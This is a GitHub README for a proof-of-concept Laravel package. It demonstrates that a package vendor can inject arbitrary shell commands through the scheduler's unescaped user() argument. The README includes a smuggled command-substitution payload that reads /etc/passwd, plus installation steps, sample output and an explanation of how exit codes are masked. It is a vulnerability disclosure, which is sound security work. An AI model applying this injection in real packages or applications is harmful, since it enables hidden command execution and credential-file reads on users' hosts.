 # Laravel - Shell Escape PoC

Proof of Concept to prove Laravel package vendors can exploit the command scheduler to run self-scheduled arbitrary shell commands.

Meaning the **host** can execute an arbitrary command in a child process shell, invoked by the Laravel scheduler.

This package uses `head -n 1 /etc/passwd > /tmp/really-cool.log` for the example.

Affecting all Laravel versions above 5.4 (Lumen is untested) when the scheduler `artisan schedule:run` is used.

### Installation
1. [Setup fresh laravel project](https://laravel.com/docs/8.x/installation#installation-via-composer)
```
composer create-project laravel/laravel example-app
```

2. Include this package
```
composer require shell-escape/poc:dev-master
```

_<small>Due to the nature of this package I will not be adding it to packagist.<br/>You will have to add the repository manually https://getcomposer.org/doc/05-repositories.md#repository
</small>_

### Running
```bash
> php artisan schedule:run
Running scheduled command: sudo -u YOURUSER $(cat /etc/passwd > /tmp/really-cool.log || true) -- sh -c ''/usr/bin/php' 'artisan' the:poc > '/dev/null' 2>&1'

Process finished with exit code 0

> cat /tmp/really-cool.log
root:x:0:0::/root:/usr/bin/zsh
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
...
```

`/tmp/really-cool.log` will contain the output of your `/etc/passwd`

### How the exploit works

#### Service Provider auto-discovery
Laravel's package discovery is utilised for the requiring app, to have the package automatically bootstrapped on application boot
> https://laravel.com/docs/8.x/packages#package-discovery

#### Adding the command schedule
As part of the service provider `boot()` is used to have a service resolution callback of the 

`ShellEscapePoc\Console\ExploitingCommand` is registered in a typical manner using the `register()` method.

Part of the schedule registration is to specify an explicit `user()` to use, which is functionality supported by Laravel.
The [CommandBuilder](https://github.com/illuminate/console/blob/465ab9dedd7db3a7ac551315259a5f9f261741f8/Scheduling/CommandBuilder.php#L73) 
is not escaping supplied arguments, given the CommandBuilder generates a command templated from
```
sudo -u $1 -- sh -c $2
```

we're able to seize control by using the shell's scripting language `AND` control operator.

eg.
```
$1 = cat /etc/passwd > /tmp/really-cool.log
$2 = 'the:poc'
```
`$2` must be a real command, registered in the Laravel console Kernel

The service wraps `$1` in a subshell, with an `OR` control operator (`||`) to `true`.
```bash
sudo -u $(cat /etc/passwd > /tmp/really-cool.log || true) -- sh -c the:poc
```
to trick the command runner into thinking the process is always successful.
This is not required, but rather used to hide exit codes other than 0
